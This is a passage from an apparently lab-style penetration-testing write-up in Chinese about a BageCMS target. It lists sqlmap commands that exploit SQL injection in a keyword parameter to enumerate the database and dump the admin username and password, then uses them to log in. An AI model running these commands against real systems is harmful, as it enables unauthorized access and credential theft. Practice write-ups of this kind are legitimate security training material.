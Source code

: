 使用 BagaCMS，可以查找相关的漏洞，但是源码中有提示存在 SQL 注入

手工可验证，这里 Sqlmap 梭哈

```plain
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword --dbs --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms --tables --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin --columns --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin -C username,password --dump --random-agent -keep-alive
```

[![](assets/1705981930-be54f57609f556ceaf32a0e41b992ecc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143526-433e0306-b827-1.png)

得到了后台账户和密码，进行登录，后台地址在 robots.txt 中有

[![](assets/1705981930-3c70dc718ff0112041720f4877aea5cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143540-4bb68fda-b827-1.png)

